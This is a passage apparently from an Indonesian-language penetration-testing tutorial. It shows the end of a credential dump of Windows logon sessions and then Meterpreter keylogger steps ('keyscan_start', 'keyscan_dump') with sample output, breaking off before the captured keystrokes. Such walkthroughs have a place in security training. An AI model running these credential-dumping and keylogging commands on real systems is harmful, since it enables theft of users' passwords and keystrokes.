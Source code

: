    ```
   Domain            : (null)
   Logon Server      : (null)
   Logon Time        : 5/10/2025 1:08:46 PM
   SID               : 
	   msv :	
	   tspkg :	
	   wdigest :	
	   kerberos :	
	   ssp :	
	   credman :	

   Authentication Id : 0 ; 999 (00000000:000003e7)
   Session           : UndefinedLogonType from 0
   User Name         : ADMIN-PC$
   Domain            : WORKGROUP
   Logon Server      : (null)
   Logon Time        : 5/10/2025 1:08:46 PM
   SID               : S-1-5-18
	   msv :	
	   tspkg :	
	   wdigest :	
	    * Username : ADMIN-PC$
	    * Domain   : WORKGROUP
	    * Password : (null)
	   kerberos :	
	    * Username : admin-pc$
	    * Domain   : WORKGROUP
	    * Password : (null)
	   ssp :	
	   credman :
   ```

## E. Keylogger

1. Mulai Keylogger:

   ```
   keyscan_start
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > keyscan_start 
   Starting the keystroke sniffer ...
   ```

2. Lihast Hasilnya:

   ```
   keyscan_dump
   ```

   Hasil output-nya seperti ini:
